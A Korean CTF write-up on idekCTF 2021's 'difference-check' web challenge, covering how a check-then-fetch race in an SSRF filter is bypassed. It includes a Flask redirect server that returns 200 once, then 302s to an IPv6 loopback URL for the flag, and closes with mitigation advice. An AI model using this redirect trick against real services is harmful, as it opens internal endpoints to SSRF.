

# difference-check

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | difference-check |
| 원본 대회 | idekCTF 2021 |
| 분야 | Web · SSRF Filter Bypass |
| 난이도 | 초급~중급 · 약 2.5~3/5 |
| 접속 주소 | `http://localhost:1361` |
| 플래그 형식 | `FLAG{...}` |

# 1. 문제 요약




- url을 2개 넣으면 해당 url에 내용을 가져와서 github diff처럼 출력해주는 시스템
- http요청을 보내니까 /flag에 ::1 ipv6 [localhost](http://localhost) 필터링을 통과할 수 있음 ssrf
- agent: ssrfFilter(url)필터가 있지만 이걸 우회하는 문제

---

# 2. 문제 분석

```python
express -/ (index반환)
				-/diff (url요청 후 두 사이트 비교)
				-/flag (localhost인지 확인하고 맞으면 flag반환 )
				
필터링 함수 agent: ssrfFilter(url)가 먼저 최종 url을 방문하고 localhost일 경우에 필터링 
async function validifyURL(url){
	valid = await fetch(url, {agent: ssrfFilter(url)})//agent: ssrfFilter(url)
	.then((response) => {
		return true
	})
	.catch(error => {
		return false
	});
	return valid;
};
```

agent: ssrfFilter(url)}가 루프백을 막고 있음→ 이 코드는 agent가 먼저 url을 한번 확인한 다음 최종 목적지가 루프백 주소인지 확인함


리다이렉트도 막음


ipv6도 막음


---

# 3. 풀이과정

라이브러리 공식 문서

[https://www.npmjs.com/package/ssrf-req-filter?activeTab=readme](https://www.npmjs.com/package/ssrf-req-filter?activeTab=readme)

우회법 관련← 안됨 http를 https로 요청하면 예전에는 필터 우회 되었음 하지만 안됨

[https://blog.doyensec.com/2023/03/16/ssrf-remediation-bypass.html](https://blog.doyensec.com/2023/03/16/ssrf-remediation-bypass.html)

요청을 두번하니까 처음 agent는 200을 나중에는 리다이랙트로 ssrf요청으로 /flag 요청 

```python
from flask import Flask, redirect, request

app = Flask(__name__)

count = 0

@app.route('/redirect')
def r():
    global count
    if count ==0:
        count +=1
        return "Operation successful{count}", 200
    else:
        return redirect(request.args['url'], code=302)

app.run(host='0.0.0.0', port=5000)
```

http://IP/redirect?url=http://[::1]:1337/flag


---

# 4. 보안조치

- SSRF 방어 시 `localhost` 문자열만 차단하는 방식은 충분하지 않다. `127.0.0.1`, `::1`과 같은 IPv4/IPv6 루프백 주소와 사설 IP 대역까지 모두 검사해야 한다.
- 사용자가 입력한 URL을 직접 요청하기 전에 URL 파서를 이용해 호스트와 IP를 정규화한 뒤 검증해야 하며, DNS 조회 결과가 내부 IP로 해석되는 경우에도 요청을 차단해야 한다.
- 리다이렉트가 허용되는 경우 최초 URL만 검사하면 우회가 가능하므로, 리다이렉트가 발생할 때마다 최종 목적지의 호스트와 IP를 다시 검증해야 한다.
- 외부 요청이 꼭 필요한 기능이라면 접근 가능한 도메인이나 IP를 Allowlist 방식으로 제한하는 것이 안전하다.
- `/flag`처럼 민감한 내부 기능은 단순히 요청 출발지가 [localhost](http://localhost)인지 확인하는 것에 의존하지 말고, 별도의 인증이나 네트워크 접근 제어를 적용해야 한다.

---

# 5. 기록

IPv6 루프백 주소인 `::1`도 결국 동일한 로컬 시스템을 가리킨다는 점